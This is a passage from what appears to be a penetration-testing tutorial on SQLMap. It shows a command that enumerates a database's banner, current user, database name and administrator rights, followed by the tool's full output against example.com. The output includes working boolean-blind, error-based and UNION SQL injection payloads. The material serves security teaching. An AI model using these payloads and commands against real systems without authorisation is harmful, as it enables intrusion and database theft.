 <li>Current database name (switch <code>--current-db</code>)</li>
<li>Checking if the current user has DBA (administrator) rights (switch <code>--is-dba</code>)</li>
</ul>
<p>The following SQLMap command does all of the above:</p>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql' 
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL &gt;= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL &gt;= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'
